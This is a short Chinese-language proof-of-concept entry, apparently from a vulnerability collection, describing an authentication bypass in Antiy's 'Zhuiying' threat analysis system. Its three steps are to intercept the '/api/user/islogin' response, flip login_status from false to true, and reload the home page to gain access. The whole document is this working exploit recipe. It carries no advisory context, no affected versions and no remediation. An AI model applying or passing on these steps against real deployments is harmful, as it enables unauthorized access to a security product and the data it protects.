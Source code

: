# 安天 追影威胁分析系统 越权访问漏洞

## POC / EXP

```
1. 访问威胁分析系统，抓包一条"/api/user/islogin"的请求，返回包的内容为:
{"role": "", "login_status": false, "result": "ok"}
2. 把请求中的 login_status 改为 true
3. 再次访问首页成功进入页面
```